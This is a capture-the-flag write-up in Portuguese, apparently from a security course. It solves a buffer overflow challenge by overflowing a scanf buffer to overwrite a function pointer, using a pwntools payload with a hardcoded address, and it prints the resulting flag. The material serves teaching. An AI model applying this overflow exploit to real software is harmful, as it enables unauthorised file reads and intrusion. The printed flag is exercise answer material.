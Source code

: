 # CTF 5 - Buffer Overflow

## Ambiente

> Começamos por preparar o ambiente para este CTF executando os comandos:

```
$ echo 'export PATH="$HOME/.local/bin:$PATH"' >> .bashrc
$ python3 -m pip install --upgrade pwntools

$ sudo apt update
$ sudo apt install checksec

$ sudo apt install gcc-multilib
```

## Tarefas

> Começamos por correr o comando `$ checksec program` e obtivemos o seguinte output:

![imagem 1](1.png)

> Analisando o código source disponibilizado podemos concluir que o programa tenta abrir e ler o ficheiro read.txt inicialmente com recurso à função `readtxt`. Contudo o nome do ficheiro aberto pode ser controlado, pois o programa usa o valor fornecido no `scanf` para subscrever variáveis e alterar o comportamento. Analisando o código é possível perceber também que existe um buffer overflow (a função `scanf`é utilizada inadequadamente pois permite que sejam inseridos até 45 caracteres numa variável que tinha sido declarada com um tamanho fixo de 32 bytes) e sendo assim podemos usar o overflow para sobrescrever o pointer `fun` e redirecioná-lo para a função `readtxt`, permitindo que o nome do ficheiro seja manipulado para ler o ficheiro **flag.txt** em vez de **rules.txt**

> Com base na análise feita decidimos editar o ficheiro exploit-template.py para que o payload preencha o buffer e acrescente o endereço da função readtxt e identificando **flag** como o ficheiro a ler.
```
#!/usr/bin/python3
from pwn import *

# to attack the remote server
#r = remote('ctf-fsi.fe.up.pt', 4000)
# to run locally
r = process('./program')

payload =  b"flag\0AAAAAAAAAAAAAAAAAAAAAABBBBB\xa5\x97\x04\x08"
r.recvuntil(b"flag:\n")
r.sendline(payload)

buf = r.recv().decode()
print(buf)
```

*Nota:* Para descobrirmos o endereço da função readtxt corremos o comando objdump `$ -d program | grep readtxt` e obtivemos o endereço **0x080497a5**.

> Executando o script em python fornecido (`$ python3 exploit-template.py`) conseguimos ler o ficheiro **flag.txt** e obter a flag de teste

![imagem 2](2.png)

> Tendo concluído esta tarefa com sucesso, experimentamos fazer o mesmo mas agora comentando a linha `r = process('./program')`e descomentando a linha `r = remote('ctf-fsi.fe.up.pt', 4000)` (já com a porta correta).


> Obtemos assim a flag:  ***flag{4dm1n_fun_w45_0wn3d}*** e demos como concluído este desafio!
